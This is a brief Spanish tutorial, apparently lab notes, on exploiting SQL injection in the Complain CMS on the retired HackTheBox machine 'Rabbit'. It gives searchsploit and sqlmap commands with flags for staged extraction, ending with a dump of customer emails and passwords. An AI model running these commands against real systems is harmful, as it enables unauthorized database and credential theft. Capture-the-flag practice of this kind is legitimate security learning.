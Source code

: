 Para esto ejemplo se tomare de ejemplo la maquina retirada *Rabbit* de *HackTheBox* lo cual es vulnerable a la injection SQL.

## Uso
Para hacer la extracción de una db se tiene que realizar por etapas, primero se extrae las *dbs*->*tables*->*columns*->*data*.

Esta maquina cuenta con gestor de contenido *Complain*.

	searchsploit complain
	searchsploit -x php/webapps/42968.txt

Este archivo contiene las instrucciones para hacer la explotación desde SQLmap.
Aquí empezara a intentar varias inyecciones SQL para descubrir las dbs disponibles.

	sqlmap -u 'http://192.168.1.104/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=t1bc9vj67odrj3bd096g0rffe0" --dbs --batch --random-agent --dbms=mysql

-dbs *Extrae primero las dbs existentes*
-batch *Omite el las preguntas*
-random-agent *Cambia el user-agent constantemente, (Mejora la taza de éxito)*
-dbms=mysql *Aplica inyección solo para MySQL*

**Parámetros**
-D complain --tables *Selecciona la db & extrae las tablas*
-T tbl_customers --columns *Selecciona la tabla & extrae sus columnas*
-C email,password --dump *Selecciona las columnas & extrae la data*
